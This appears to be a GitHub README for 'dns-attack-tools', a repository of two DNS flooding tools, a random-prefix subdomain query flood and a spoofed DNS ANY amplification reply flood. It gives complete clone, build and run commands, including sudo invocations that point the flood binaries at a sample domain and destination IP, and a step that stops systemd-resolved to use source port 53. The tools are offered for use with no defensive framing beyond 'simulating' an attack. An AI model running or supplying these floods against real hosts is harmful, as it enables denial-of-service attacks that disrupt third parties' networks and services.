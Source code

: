 # dns-attack-tools

Tools for generating DNS attacks.

## DNS random prefix flood

Floods a destination IP with DNS queries for random prefixed subdomains.

## DNS ANY amplification

Floods a destination IP with DNS ANY responses, simlulating a DNS ANY amplification.

## Setup

```
sudo apt update
sudo apt install git gcc make

git clone https://github.com/cjdoucette/dns-attack-tools.git
cd dns-attack-tools

#
# Running DNS random prefix flood
#

cd dns-random  # from dns-attack-tools folder
make
sudo ./dnsflood cf.com 8.31.160.5  # sample domain and destination IP address
# use ctrl+c to stop

#
# Running DNS ANY amplification
#

cd dns-any  # from dns-attack-tools folder
sudo systemctl stop systemd-resolved # disable to be able to use source port 53
make
sudo ./dns_any_reply 8.31.160.5  # sample destination IP address
# use ctrl+c to stop
sudo systemctl start systemd-resolved # restart to be able to download things
```
